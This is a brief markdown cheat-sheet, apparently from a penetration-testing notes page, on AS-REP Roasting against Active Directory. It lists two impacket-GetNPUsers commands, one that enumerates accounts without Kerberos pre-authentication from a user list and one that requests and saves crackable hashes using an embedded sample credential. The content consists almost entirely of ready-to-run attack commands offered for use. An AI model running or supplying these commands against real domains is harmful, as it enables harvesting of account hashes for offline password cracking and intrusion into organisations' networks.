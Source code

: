# AS-REP Roasting
Getting TGTs. Need 'DONT_REQUIRE_PREAUTH' set.
Users from file: `impacket-GetNPUsers 'DOMAIN/' -usersfile USERLIST -no-pass -dc-ip IP`
All from domain: `impacket-GetNPUsers 'DOMAIN/triceratops:Sh4rpH0rns' -request -outputfile HASH`